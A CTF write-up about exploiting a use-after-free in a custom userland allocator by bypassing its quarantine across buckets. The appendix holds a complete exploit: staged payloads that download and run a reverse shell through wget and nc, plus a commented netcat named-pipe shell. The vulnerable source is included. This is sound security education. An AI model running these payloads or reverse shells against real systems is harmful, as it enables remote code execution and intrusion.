

## Introduction
In the [previous blog post](a-reverse-engineering-journey-walkthrough.html) we have covered a walkthrough guide to solve the Reverse Engineering challenge written for the [NoHat24](https://www.nohat.it/) security conference. In this blog post, we are going to cover the binary exploitation challenge that involves a custom userland allocator that has been specifically developed for this challenge. Writing our own allocator, remotely inspired from the kernel SLUB allocator, was a really fun and educational experience. We have implemented an Use-After-Free quarantine mitigation to prevent its exploitation, was it good enough?

## Introducing the Custom Allocator
The custom allocator source code was available through an HTTP web interface and can now be download directly from [here](https://github.com/hacktivesec/nohat24-blog-references/tree/main/pwn).

The two files `hmalloc.h` and `hmalloc.c` contains the whole implementation of the custom allocator that replaces the standard glibc malloc. The following diagram and structs describes the allocator design:



```C
struct list_head{
  struct list_head* next;
  struct list_head* prev;
};

struct bucket{
  struct list_head  buckets;
  /* Offset of the available alloc inside the bucket */
  uint16_t  offset;
  /* How many allocs are freed */
  uint8_t   freelist_count;
  uint8_t   freelist[MAX_ALLOCS];
  void*     allocs[];
};

/* Single allocations just contain the size of the alloc as metadata */
struct alloc{
  uint16_t size;
  void*   user[];
} __attribute__((packed));

```
The target allocator, inspired from the kernel SLUB allocator, has a simple "bucket" concept. Each allocation size (from 16 to 1024) has its own memory region retrieved from `mmap` (through `__init_bucket`) and it is considered a `SMALL_BUCKET`, while larger buckets (`LARGE_BUCKETS`) are not handled from the allocator. A Bucket Master Control (`bucket_master_ctrl` global variable inside `hmalloc.c`) is used to store buckets' addresses using an offset that can be used to retrieve the requested bucket for the needed size. The size of the allocation is the offset minus the size of a pointer. For example, the bucket address for 32 bytes allocations is at offset 24 (32-8).

When `malloc` is called the first time with a specific size, that is always rounded to the nearest power of two starting from 32 (e.g. 32, 64, 128, 256, 512, 1024), the bucket is allocated through `__init_bucket` and referred to as the `current_bucket`. The current bucket is the bucket from where we try to initially allocate from. It can be retrieved, once allocated, using `__get_bucket`. Each allocation, named `alloc` inside the source code, contains just the size of the allocation as metadata and `alloc->user` is the returned `malloc` pointer. When an `alloc` is allocated from a `bucket`, the `bucket->offset` is incremented by one and used for the next allocations to return subsequent memory addresses (it is always multiplied with the allocation size). The offset does not just provides the capability to return new allocations but also marks and identifies freed allocations inside the bucket. A freelist is implemented to first return freed memory (to avoid fragmentation) with a LIFO mechanism. `bucket->freelist` is an array of freed `allocs` (based on their offsets) that can be accessed with the `bucket->freelist_count` that is incremented every time an `alloc` is freed and decremented when a freed allocation is returned back to the user. This "dynamic" array permits to handle the freelist pretty easily and is the first path to return an allocation from the `__malloc` logic. 

When the maximum number of allocations (`(PAGE_SIZE - sizeof(struct bucket)) / alloc_size`) is reached for a bucket, a new bucket is created (through new `mmap` memory) and linked through the `list_head` `next` and `prev` members.
```C
old_current_bucket->buckets.next = (struct list_head*) &current_bucket->buckets.next;
current_bucket->buckets.prev = (struct list_head*) &old_current_bucket->buckets.next;
```

The linked list permits to have more buckets linked together for each allocation size. When the current bucket is full (e.g. it is not possible to re-allocate freed allocs neither new allocs) previous and next buckets are verified (traversing the linked list backwards and forwards) and an allocation is returned if one of them contains a freed alloc on its freelist. Also, if the found bucket contains more than a specific amount of freed elements (`FREELIST_REPLACE_BUCKET_THRESHOLD`) it is replaced as the current bucket from the `bucket_master_ctrl` (through `__update_master_ctrl_bucket`). 

When `free` is called with a pointer, the `alloc` struct is retrieved through `ptr - sizeof(struct alloc)` and the bucket obtained masking the pointer with `0xfff` (memory returned from `mmap` is always page aligned). In order to calculate its offset inside the bucket, the allocation size retrieved from the metadata of the `alloc` is used as a dividend to the allocation address minus `bucket->allocs` (e.g. the first alloc is 0, the second 1, the third 2 and so on). The `bucket->freelist[]` array is updated with the calculated offset and `bucket->freelist_count` incremented by one.
### Freelist quarantine mitigation
Before leaving the `free` function, a global `freelist_quarantine_time` variable is set with the current time. When verifying the freelist of the current bucket, the function `__is_freelist_available` verify its availability. It is possible to return a freed alloc **only** if ten seconds (`FREELIST_QUARANTINE_WAIT`) are passed from the last freed element:
```C
bool __is_freelist_available(){
#ifdef FREELIST_QUARANTINE
  if((time(NULL) - freelist_quarantine_time) < FREELIST_QUARANTINE_WAIT){
    DEBUG_PRINT("[DEBUG] Freelist is quarantined\n");
    return false;
  }
  return true;
#endif
  return true;
}
```

This mitigations is aimed to prevent the immediate re-use of freed allocations (Use-After-Free vulnerabilities).
### Freelist quarantine Weakness
However, the mitigation is not bullet proof, and this is the intended objective of the CTF. The freelist timer is only checked while searching for freed allocs inside the same bucket, but not when traversing. Suppose the following scenario:
- Two buckets (`bucket_1` and `bucket_2`) are fully allocated (e.g. no available or freed allocations). `bucket_2` is the "current" one (the one registered in the Bucket Master Control).
- An alloc is freed from `bucket_1`.
- When `malloc` is called (with the same size of the two buckets) the freelist of `bucket_2` is not available while, with traversing, the just freed alloc from `bucket_1` is immediately available.

The described scenario can be useful to exploit an immediate UaF condition.
## Main binary logic
The main binary logic (`main.c`) is pretty simple. It reads from stdin `4096` bytes and parses it line by line, searching for commands to execute inside a `switch` statement. Each line must begin with a valid command (`CMD_CREATE`, `CMD_ADD`, `CMD_DELETE`, `CMD_SELL`, `CMD_DROP`) and follows a command specific format. For example, the `CMD_CREATE` command allocates a `struct object` (using `malloc`) where `malloc` is also used to allocate `object->name` and `object->description` using `strlen` with some size validation. At the end of the command, the three function pointers (`sell`, `add` and `drop`) are respectively set  with `function_sell`, `function_add` and `function_drop`, just like a primitive OOP language. 
This is the mentioned struct:
```C
struct object{
  int   id;
  int   price;
  char* name;
  char* description;
  int   stock;
  int   earnings;
  void (*sell) (struct object* this);
  void (*add) (struct object* this);
  void (*drop) (struct object* this);
};
```

Also, when a new `object` is allocated, an array of object pointers (`objs`) is updated to store all of them. The array is later used for the vtable functions (`sell`, `add` and `drop`) and to delete an object based on its specified id.
## The vulnerability (UAF)
The vulnerability is pretty straightforward: when an object is freed (through `CMD_FREE`), the `objs` array is not updated and the dangling pointer can be still accessed without further validations from another command (Use-After-Free) or itself (Double Free).
However, there is just one big obstacle: the freelist quarantine mitigation does not permit an immediate Use-After-Free. In order to exploit the UAF, it is necessary to re-create an heap layout similar to the one described in "Freelist quarantine Weakness", where we can trigger the UAF against an allocation from a non current bucket.
## Exploitation
### Objective
Let's first declare an objective. As simple as it sounds, we want to compromise the binary application (that is exposed through `socat`) and read the flag. We have a UAF primitive on a `struct object` that contains interesting members: dynamic strings (that we can use to overlap the freed allocation) and three function pointers. Function pointers, that behave like a vtable, seems like a really juicy target since they are allocated in the heap (inside the object structure) and can be triggered from multiple commands. Name and description members are really interesting allocations that can be used to replace the freed alloc due to their flexible size based on user input.

Also, since we have a single interaction with the program (we pass everything through stdin once) we cannot use read primitives or similar to leak ASLR. We can go for a bruteforce or a partial overwrite in order to don't mess too much with randomized pointers.

### Heap shaping to bypass the quarantine
With a clearer path in mind, let's start to create the UAF state with python step by step:
```python
objs = []
content = ""
# Objective:
# Allocate 2 64 bytes buckets and make them full
# 520 = sizeof(struct bucket)
# 4096 - 520 = 3576 / 64 = 55
for n in range(0, 55 * 2):
	obj_id = pack("<h", int(n)).decode()
	objs.append(obj_id)
	# print_stderr("[*] Creating object {}".format(n))
	# Create
	content += "\x10" # CMD_CREATE
	content += obj_id
	content += "\x16\x00"
	content += "\x41" * 20 + "\x00"
	content += "\x42" * 4 + "\x00"
	content += "\n"
```

We fulfill two buckets (`bucket_1` and `bucket_2`) with 110 allocations of `struct object`. The size of `struct object` is `58`, hence it goes into the bucket of 64 bytes allocations (we can call it `bucket_64`). The `bucket_64` can contains up to 55 allocations since the `PAGE_SIZE` memory region (4096) minus the size of the `struct bucket` metadata (520) and divided by its size (64), it's 55. 

```python
# DELETE (Free)
content += "\x12"
content += objs[0]
content += "\n"

# DELETE (Free)
content += "\x12"
content += objs[1]
content += "\n"
```

We then proceed to free the first two allocations from `bucket_1`. We free two of them since the last one (due to the LIFO freelist order) will be replaced, using the `CMD_CREATE` command, with another `struct object` (`malloc(sizeof(struct object));`) and initialized with zeros (removing the possibility of a partial overwrite to bypass ASLR). The first freed allocation, instead, can be replaced with arbitrary user input due to the dynamic allocation through `strlen`. Due to this function, however, we are limited to its internal behaviors (e.g. it is not possible to have NULL bytes inside our payload).

### Partial Overwrite
We can create, through `CMD_CREATE`, a fake object inside the `name` or the `description` string allocation, by making its size falling inside the `bucket_64`, in order to trigger the UAF against it. 
We can perform a partial overwrite through the `memcpy` function (on the freed object) by replacing one or two bytes in order to not affect ASLR at all. `execute_system` is an interesting function that accepts a char pointer and pass it as a parameter to `system`, allowing the execution of arbitrary shell code. It can be a really interesting primitive due to a crucial thing: the `rdi` register (e.g. the first parameter) is the object itself (`this`) for function pointers. This means that, if we can redirect the execution to `execute_system`, we control entirely the first parameter that is the command to be executed! In order to see what we need to partially overwrite, we can execute `objdump` against the binary:
```bash
$ objdump -D -M intel main | grep '<execute_system\|function_drop'
0000000000001270 <execute_system>:
00000000000012c0 <function_drop>:
```

The `function_drop` address is `00000000000012c0`, while `execute_system` is `0000000000001270`. If we overwrite the last byte of the `object->drop` pointer with `0x70` and we execute the `CMD_DROP` command later, we can trigger the execution of `system` with input in our control (the last allocated object itself):
```python
    # ID & price
    fake_obj = "AA;$({});#".format(cmd)
    #fake_obj += "\x41" * 0x2c
    fake_obj += "\x41" * ( 0x30 - len(fake_obj) )
    # CMD_DROP function pointer => @execute_system
    # @execute_system
    fake_obj += "\x70" + "\x00"

    # Create => alloc bucket1->freelist[1]
    content += "\x10"
    content += "\x37\x13"  # sh
    content += "\x16\x00"
    # Name: system payload
    content += "BB\x00"
    # Description: alloc on bucket1->freelist[0] (obj[0])
    content += fake_obj
    content += "\n"

    # CMD_DROP => Trigger arbitrary function call
    content += "\x14"
    content += "\x41\x41"
    content += "\n"
```

Since the `struct object` allocation is limited in size for a direct reverse shell, the vulnerability is exploited three times to first upload a complete reverse shell through `wget`, `chmod` and finally execute it.

## Alternative Solution (Double Free)
An alternative, originally not the intended solution, can be to exploit the Double Free vulnerability instead. It is possible to return the same `alloc` twice by inserting (through exploitation) the same freelist offset inside the `bucket->freelist` and achieve the same objective. If you have solved the challenge in that way at the NoHat CTF or in a different moment, we are really curious about that, let us know!

## Conclusion
The final exploit can be found [here](https://github.com/hacktivesec/nohat24-blog-references/tree/main/pwn/exploit). Hope you have enjoyed this two article series on our CTF write-ups for the NoHat24 CTF event.

## Appendix
### Exploit Code
`exploit.sh`

```python
#!/bin/bash

if [ "$#" -ne 4 ]; then
    echo "$0 <RHOST> <RPORT> <LHOST> <LPORT>"
    exit
fi

RHOST=$1
RPORT=$2
LHOST=$3
LPORT=$4

echo "[*] Generating payload for the three stages"
python3 generate_input_files.py $LHOST

echo "[*] Modifying script reverse shell to $LHOST:$LPORT"
sed -e "s/LHOST/$LHOST/g" -e "s/LPORT/$LPORT/g" rev.sh > e
python3 generate_input_files.py $LHOST

echo "[*] Starting web browser"
python3 -m http.server&
sleep 1

echo "[*] Sending stage 1 to  $RHOST $PORT - wget http://$LHOST:8000/e"
nc -v $RHOST $RPORT < input_file_1
echo "[+] Done"
sleep 1

echo "[*] Sending stage 2 to  $RHOST $PORT"
nc -v $RHOST $RPORT < input_file_2
echo "[+] Done"
sleep 1

echo "[*] Sending stage 3 to  $RHOST $PORT.. The uploaded script should be executed"
nc -v $RHOST $RPORT < input_file_3
echo "[+] Done"
sleep 1

# kill web server
pkill python3
```

`generate_input_files.py`:
```python
from struct import pack
import sys

def print_stderr(msg):
    sys.stderr.write(msg + "\n")

def exploit(cmd, filename):
    objs = []
    content = ""
    # Objective:
    # Allocate 2 64 bytes buckets and make them full
    # 520 = sizeof(struct bucket)
    # 4096 - 520 = 3576 / 64 = 55
    for n in range(0, 55 * 2):
        obj_id = pack("<h", int(n)).decode()
        objs.append(obj_id)
        # print_stderr("[*] Creating object {}".format(n))
        # Create
        content += "\x10"
        content += obj_id
        content += "\x16\x00"
        content += "\x41" * 20 + "\x00"
        content += "\x42" * 4 + "\x00"
        content += "\n"

    # Status
    # Bucket 1: Fully allocated
    # Bucket 2: Fully allocated (current)

    # Free two allocations from bucket 1
    # Since bucket 2 is current and the traversing doesn't involve the 
    # quarantine mitigation, we can bypass it

    # DELETE (Free)
    content += "\x12"
    content += objs[0]
    content += "\n"

    # DELETE (Free)
    content += "\x12"
    content += objs[1]
    content += "\n"

    # ID & price
    fake_obj = "AA;$({});#".format(cmd)
    #fake_obj += "\x41" * 0x2c
    fake_obj += "\x41" * ( 0x30 - len(fake_obj) )
    # CMD_DROP function pointer
    # @execute_system
    fake_obj += "\x70" + "\x00"

    # Create => alloc bucket1->freelist[1]
    content += "\x10"
    content += "\x37\x13"  # sh
    content += "\x16\x00"
    # Name: system payload
    # content += ";mknod /tmp/mypipe p ; /bin/bash 0< /tmp/mypipe | nc 127.0.0.1 4445 1> /tmp/mypipe\x00"
    content += "BB\x00"
    # Description: alloc on bucket1->freelist[0] (| obj[0])
    content += fake_obj
    content += "\n"

    # DROP => Trigger arbitrary function call
    content += "\x14"
    content += "\x41\x41"
    content += "\n"

    with open(filename, "w") as f:
        f.write(content)
    print_stderr("[+] {} generated".format(filename))

if __name__ == "__main__":
    exploit("wget http://{}:8000/e -O /tmp/e".format(sys.argv[1]), "input_file_1")
    exploit("chmod +x /tmp/e", "input_file_2")
    exploit("/tmp/e", "input_file_3")
```

### Challenge Source Code
`main.c`
```C
#include <stdio.h>
#include "hmalloc.h"

#define CMD_CREATE  0x10
#define CMD_ADD     0x11
#define CMD_DELETE  0x12
#define CMD_SELL    0x13
#define CMD_DROP    0x14

#define MAX_OBJS      1000
#define BUF_SZ        4096
#define MAX_STRING_SZ 1024

int total_earnings  = 0;
int total_stocks    = 0;
int total_objs      = 0;
struct object* objs[MAX_OBJS];

struct object{
  int   id;
  int   price;
  char* name;
  char* description;
  int   stock;
  int   earnings;
  void (*sell) (struct object* this);
  void (*add) (struct object* this);
  void (*drop) (struct object* this);
};

void function_sell(struct object* this){
  printf("CMD_SELL\n");
  if(this->stock <= 0)
    return;
  this->stock--;
  this->earnings = this->earnings + this->price;
}

void function_add(struct object* this){
  printf("CMD_ADD\n");
  this->stock++;
}
void execute_system(const char* cmd){
  system(cmd);
}

void notify_end(){
  const char* cmd = "touch /tmp/end";
  execute_system(cmd);
}

void function_drop(struct object* this){
  printf("CMD_DROP\n");
  this->stock--;
}

void show_object(struct object* obj){
    printf("\tid: 0x%x\n", obj->id);
    printf("\tPrice: %d\n", obj->price);
    printf("\tName: %s\n", obj->name);
    printf("\tDescription: %s\n", obj->description);
    printf("\tStock: %d\n", obj->stock);
    printf("\tEarnings: %d\n", obj->earnings);
}

struct object* get_object(short int obj_id){
    // Search for the product id
    int j = 0;
    while(j < total_objs){
      if((short int) objs[j]->id == obj_id)
        return objs[j];
      j++;
    }
    return NULL;
}

int main(){
  char raw_input[BUF_SZ];
  int n_read;
  size_t n;
  struct object* obj;
  int obj_id;
  memset(raw_input, 0x0, BUF_SZ);

  /* Parse file from input */
  n_read = read(0, raw_input, BUF_SZ);
  int idx = 0;
  while(idx < n_read){
    int command = raw_input[idx];
    idx++;
    switch(command){
      case CMD_CREATE:
        printf("CMD_CREATE\n");
        obj = malloc(sizeof(struct object));
        memset(obj, 0x0, sizeof(struct object));
        /* Object ID*/
        memcpy(&obj->id, raw_input + idx, 2);
        idx = idx + 2;

        /* Object Price*/
        memcpy(&obj->price, raw_input + idx, 2);
        idx = idx + 2;

        /* Object name */
        n = strlen((char*) raw_input + idx);
        if(n == 0 || n > MAX_STRING_SZ || (idx + n) > n_read)
          return -1;
        obj->name = malloc(n);
        memcpy(obj->name, raw_input + idx, n);
        idx = idx + n + 1;

        /* Object description */
        n = strlen((char*) raw_input + idx);
        if(n == 0 || n > MAX_STRING_SZ || (idx + n) > n_read)
          return -1;
        obj->description = malloc(n);
        memcpy(obj->description, raw_input + idx, n);
        idx = idx + n + 1;

        obj->sell = function_sell;
        obj->add  = function_add;
        obj->drop = function_drop;

        if(total_objs > MAX_OBJS)
          return -1;

        objs[total_objs] = obj;
        total_objs++;
        break;
    case CMD_DROP:
    case CMD_ADD:
    case CMD_SELL:
        memcpy(&obj_id, raw_input + idx, 2);
        idx = idx + 2;
        obj = get_object(obj_id);
        if(obj == NULL)
          break;

        if(command == CMD_ADD)
          obj->add(obj);
        else if(command == CMD_DROP)
          obj->drop(obj);
        else if(command == CMD_SELL)
          obj->sell(obj);
        break;
  case CMD_DELETE:
        printf("CMD_DELETE\n");
        memcpy(&obj_id, raw_input + idx, 2);
        idx = idx + 2;
        obj = get_object(obj_id);
        if(obj == NULL)
          break;

        free(obj->name);
        free(obj->description);
        free(obj);
        break;
      default:
        fprintf(stdout, "Command 0x%x not found\n", command);
        return -1;
        break;
    }
    if(raw_input[idx] != 0x0a){
      fprintf(stderr, "Missing newline");
      exit(EXIT_FAILURE);
    }
    idx++;
  }
  notify_end();
  return 0;
}
```

`hmalloc.h`
```C
#ifndef HMALLOC_H
#define HMALLOC_H
#include <stdint.h>
#include <sys/types.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <sys/mman.h>
#include <time.h>
#include <unistd.h>


//#define DEBUG
#ifdef DEBUG
#define DEBUG_PRINT(fmt, args...)    fprintf(stderr, fmt, ## args)
#else
#define DEBUG_PRINT(fmt, args...)
#endif

#define PAGE_SZ         4096
#define MAX_ALLOCS      500

/* 
 * Small buckets: 16, 32, 64, 128, 256, 512, 1024
 * Large buckets (not YET supported) : >= 2048
 */

#define SMALL_BUCKET_PAGES    1
#define SMALL_BUCKET_MIN_SZ   16
#define SMALL_BUCKET_MAX_SZ   1024
#define SMALL_BUCKET_MASK     ~0xFFF // 1 PAGE

#define LARGE_BUCKET_MIN_SZ   2048
#define LARGE_BUCKET_PAGES    4             
//#define LARGE_BUCKET_MASK     0xFFFFFFFFC000 // 4 PAGES
//#define LARGE_BUCKET_MASK     TODO

#define FREELIST_REPLACE_BUCKET_THRESHOLD   3

/* 10 seconds */
#define FREELIST_QUARANTINE
#define FREELIST_QUARANTINE_WAIT            10


#define BUCKET_MAX_SZ   2048

typedef uint64_t bool;
#define true 1
#define false 0

struct list_head{
  struct list_head* next;
  struct list_head* prev;
};

struct bucket{
  struct list_head  buckets;
  /* Offset of the available alloc inside the bucket */
  uint16_t  offset;
  /* How many allocs are freed */
  uint8_t   freelist_count;
  uint8_t   freelist[MAX_ALLOCS];
  void*     allocs[];
};

/* Single allocations just contain the size of the alloc as metadata */
struct alloc{
  uint16_t size;
  void*   user[];
} __attribute__((packed));

void* malloc(size_t size);
void free(void* ptr);
bool __hmalloc_init();
void* __malloc(size_t size);
size_t __round_up_size(size_t sz);
size_t __bucket_max_allocations(size_t alloc_size);
struct bucket* __get_bucket(size_t alloc_size);
struct bucket* __get_bucket_from_alloc(struct alloc* target_alloc);
static inline void __update_master_ctrl_bucket(size_t alloc_size, struct bucket* b);
void* __fastpath_new_bucket_alloc(struct bucket* bucket, size_t alloc_size);
bool __is_freelist_available();
void __dump_bucket(struct bucket* b);
void __dump_alloc(struct alloc* a);

#endif // HMALLOC_H

```

`hmalloc.c`
```C
#include "hmalloc.h"
/* 
 * TODO: Single buckets are never unmmaped
 */

void** bucket_master_ctrl = NULL;
time_t freelist_quarantine_time = 0;

size_t __round_up_size(size_t size) {
  int power = 32;
  while(power < size)
    power*=2;
  return power;
}

void __dump_bucket(struct bucket* b){
  DEBUG_PRINT("[DEBUG]\tstruct bucket {\n");
  DEBUG_PRINT("\t\tnext: %p\n", b->buckets.next);
  DEBUG_PRINT("\t\tprev: %p\n", b->buckets.prev);
  DEBUG_PRINT("\t\toffset: %d\n", b->offset);
  DEBUG_PRINT("\t\tfreelist_count: %d\n", b->freelist_count);
  for(int i=0; i < b->freelist_count; i++)
    DEBUG_PRINT("\t\tfreelist[%d]: %d\n", i, b->freelist[i]);
  DEBUG_PRINT("\t\tallocs: %p\n", b->allocs);
  DEBUG_PRINT("\t}\n[/DEBUG]\n");
}

void __dump_alloc(struct alloc* a){
  DEBUG_PRINT("[DEBUG]\tstruct alloc {\n");
  DEBUG_PRINT("\t\tsize: %d\n", a->size);
  DEBUG_PRINT("\t\tuser: %p\n", a->user);
  DEBUG_PRINT("\t}\n[/DEBUG]\n");
}

bool __hmalloc_init(){
  bucket_master_ctrl = mmap(NULL, PAGE_SZ, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, 0, 0);
  if(bucket_master_ctrl == MAP_FAILED){
    perror("mmap");
    return false;
  }
  //DEBUG_PRINT("[DEBUG] HMALLOC initialized with bucket_master_ctrl = %p\n", bucket_master_ctrl);
  memset(bucket_master_ctrl, 0x0, PAGE_SZ);
  return true;
}

struct bucket* __init_bucket(size_t size){
  struct bucket* bucket;
  DEBUG_PRINT("Initializing small bucket with %d pages\n", SMALL_BUCKET_PAGES);
  bucket = mmap(NULL, PAGE_SZ * SMALL_BUCKET_PAGES, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, 0, 0);
  memset(bucket, 0x0, PAGE_SZ * SMALL_BUCKET_PAGES);
  return bucket;
}

size_t __bucket_max_allocations(size_t alloc_size){
  return ((PAGE_SZ * SMALL_BUCKET_PAGES) - sizeof(struct bucket)) / alloc_size;
}

struct bucket* __get_bucket(size_t alloc_size){
  off_t off = alloc_size - sizeof(void*);
  return *(void**)((void*) bucket_master_ctrl + off);
}

struct bucket* __get_bucket_from_alloc(struct alloc* target_alloc){
  return (struct bucket*) ((uint64_t) target_alloc & SMALL_BUCKET_MASK);
}

static inline void __update_master_ctrl_bucket(size_t alloc_size, struct bucket* bck){
  off_t off = alloc_size - sizeof(void*);
  *(void**) ((void*) bucket_master_ctrl + off) = bck;
}

void* __fastpath_new_bucket_alloc(struct bucket* b, size_t alloc_size){
  // return the pointer to the first allocation of a newly allocated bucket
  struct alloc* alloc = (struct alloc*) b->allocs;
  alloc->size = alloc_size;
  b->offset++;
  return alloc->user;
}

bool __is_freelist_available(){
#ifdef FREELIST_QUARANTINE
  if((time(NULL) - freelist_quarantine_time) < FREELIST_QUARANTINE_WAIT){
    return false;
  }
  return true;
#endif
  return true;
}

void* malloc(size_t size){
  void* alloc;
  if(!bucket_master_ctrl){
    if(!__hmalloc_init())
      return NULL;
  }
  alloc = __malloc(size);
  DEBUG_PRINT("malloc(%zu) = %p\n", size, alloc);
  return alloc;
}

void* __malloc(size_t input_size){
  size_t  alloc_size;
  off_t   bucket_offset;
  off_t   offset;
  struct bucket* current_bucket;
  struct bucket* old_current_bucket;
  struct bucket* linked_bucket;
  struct alloc* alloc;
  uint8_t freelist_count = 0;
  size_t  bucket_max_allocs = 0;

  /* Size validation */
  if(input_size == 0)
    return NULL;

  DEBUG_PRINT("\n+++++++++ MALLOC +++++++++\n");
  alloc_size = __round_up_size(input_size + sizeof(struct alloc));
  if(alloc_size > SMALL_BUCKET_MAX_SZ){
    /* TODO: Not implemented */
    return NULL;
  }

  /* Retrieve, or initialize, the appropriate bucket based on alloc_size */
  current_bucket = __get_bucket(alloc_size);
  /* If the  bucket is not initialized, do it */
  if(current_bucket == NULL){
    current_bucket = __init_bucket(alloc_size);
    if(current_bucket == NULL){
      perror("__init_bucket: mmap");
      return NULL;
    }
    DEBUG_PRINT("[DEBUG] Bucket %zu initialized: %p\n", alloc_size, current_bucket);
    // Store the bucket inside the Bucket Master Control
    __update_master_ctrl_bucket(alloc_size, current_bucket);
  }
  DEBUG_PRINT("[DEBUG] current_bucket (%zu) = %p\n", alloc_size, current_bucket);
  __dump_bucket(current_bucket);

  /* 1. Verify if we have freed allocs inside the current_bucket */
  freelist_count = current_bucket->freelist_count;
  if(freelist_count && __is_freelist_available()){
    offset = current_bucket->freelist[(current_bucket->freelist_count - 1)];
    alloc = (void*) current_bucket->allocs + ( offset * alloc_size);
    current_bucket->freelist_count--;
    DEBUG_PRINT("[DEBUG] Alloc retrieved from the freelist with offset %ld: %p\n", offset, alloc);
    return alloc->user;
  }

  /* 2. Verify if we can alloc from the current bucket */
  bucket_max_allocs = __bucket_max_allocations(alloc_size);
  bucket_offset = current_bucket->offset;
  if(bucket_offset != bucket_max_allocs){
    // We still have allocs to return!
    if(bucket_offset > bucket_max_allocs){
      DEBUG_PRINT("!! bucket_offset should never exceeds its maximum allocations!\n");
      return NULL;
    }
    alloc = (struct alloc*) ((void*) current_bucket->allocs + (bucket_offset * alloc_size));
    alloc->size = alloc_size;
    current_bucket->offset++;
    __dump_alloc(alloc);
    return alloc->user;
  }

  // From now on, bucket_offset == bucket_max_allocs (e.g. bucket is full)
  /* 3. If we have linked buckets, verify them as well */
  // Traverse backwards first
  if(current_bucket->buckets.prev){
    linked_bucket = (struct bucket*) current_bucket->buckets.prev;
    while(linked_bucket != NULL){
      // Traverse
      DEBUG_PRINT("[DEBUG] linked bucket %p\n", linked_bucket);
      __dump_bucket(linked_bucket);

      if(linked_bucket->freelist_count == 0){
        linked_bucket = (struct bucket*) linked_bucket->buckets.prev;
        continue;
      }
      
      // If here we have a freed alloc
      offset = linked_bucket->freelist[(linked_bucket->freelist_count - 1)];
      alloc = (void*) linked_bucket->allocs + ( offset * alloc_size);
      linked_bucket->freelist_count--;

      // Verify if this bucket has enough freed allocs to replace the current bucket
      if(linked_bucket->freelist_count >= FREELIST_REPLACE_BUCKET_THRESHOLD){
        __update_master_ctrl_bucket(alloc_size, linked_bucket);
      }
      // Return the alloation directly from here
      DEBUG_PRINT("[DEBUG] Returing alloc %p from bucket %p with traversing\n", alloc, linked_bucket);
      return alloc->user;
    }
  }

  // Traverse forward
  if(current_bucket->buckets.next){
    linked_bucket = (struct bucket*) current_bucket->buckets.next;
    while(linked_bucket != NULL){
      // Traverse
      DEBUG_PRINT("[DEBUG] linked bucket %p\n", linked_bucket);
      __dump_bucket(linked_bucket);

      if(linked_bucket->freelist_count == 0){
        linked_bucket = (struct bucket*) linked_bucket->buckets.next;
        continue;
      }
      
      // If here we have a freed alloc
      offset = linked_bucket->freelist[(linked_bucket->freelist_count - 1)];
      alloc = (void*) linked_bucket->allocs + ( offset * alloc_size);
      linked_bucket->freelist_count--;

      // Verify if this bucket has enough freed allocs to replace the current bucket
      if(linked_bucket->freelist_count >= FREELIST_REPLACE_BUCKET_THRESHOLD){
        DEBUG_PRINT("[DEBUG] Master bucket updated with %p\n", linked_bucket);
        __update_master_ctrl_bucket(alloc_size, linked_bucket);
      }
      // Return the alloation directly from here
      DEBUG_PRINT("[DEBUG] Returing alloc %p from bucket %p with traversing\n", alloc, linked_bucket);
      return alloc->user;
    }
  }

  /* 4. If everything fails, allocate a new bucket */
  old_current_bucket = current_bucket;
  current_bucket = __init_bucket(alloc_size);
  if(current_bucket == NULL){
      perror("__init_bucket: mmap");
      return NULL;
  }
  DEBUG_PRINT("[DEBUG] New bucket %zu initialized: %p\n", alloc_size, current_bucket);

  // update list_heads
  old_current_bucket->buckets.next = (struct list_head*) &current_bucket->buckets.next;
  current_bucket->buckets.prev = (struct list_head*) &old_current_bucket->buckets.next;

  // Update the Bucket Master Control with the new bucket
  __update_master_ctrl_bucket(alloc_size, current_bucket);

  alloc = __fastpath_new_bucket_alloc(current_bucket, alloc_size);
  __dump_alloc(alloc);
  __dump_bucket(current_bucket);
  return alloc;
}

void free(void* ptr){ 
  struct alloc* current_alloc;
  struct bucket* current_bucket;
  uint16_t offset;

  if(ptr == NULL){ return; }
  DEBUG_PRINT("\n+++++++++ FREE +++++++++\n");

  /* 1. Retrieve the bucket based on the size */
  current_alloc = ptr - sizeof(struct alloc);
  DEBUG_PRINT("[DEBUG] Freeing alloc %p\n", current_alloc);

  if(current_alloc->size > SMALL_BUCKET_MAX_SZ) {
    // Should never be here since we still don't deal with that sizes
    return;
  }

  current_bucket = __get_bucket_from_alloc(current_alloc);
  DEBUG_PRINT("[DEBUG] Retrieved current bucket for %d is: %p\n", current_alloc->size, current_bucket);

  /* 2. Update the bucket freelist count and freelist array */
  offset = ( (void*) current_alloc - (void*) current_bucket->allocs ) / current_alloc->size;
  current_bucket->freelist[current_bucket->freelist_count] = offset;
  current_bucket->freelist_count++;
  freelist_quarantine_time = time(NULL);
  __dump_bucket(current_bucket);
}
```
